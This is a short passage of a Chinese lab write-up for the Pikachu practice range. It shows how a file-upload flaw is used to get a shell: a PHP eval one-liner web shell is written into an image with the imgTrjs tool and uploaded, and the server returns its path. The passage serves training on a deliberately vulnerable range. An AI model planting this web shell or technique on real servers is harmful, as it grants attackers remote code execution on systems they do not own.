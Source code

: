 <br> 

### 配合文件上传getshell

使用imgTrjs工具将一句话代码`<?php @eval($_POST['123']);?>`写入图片中

![image-20221128192307249](pikachu靶场/image-20221128192307249.png)	

<br>

在文件上传处上传带有恶意代码的图片, 随后返回图片的相对路径:`uploads/ImgTrjs.jpg`

![动画](pikachu靶场/动画-16696348701315.gif)
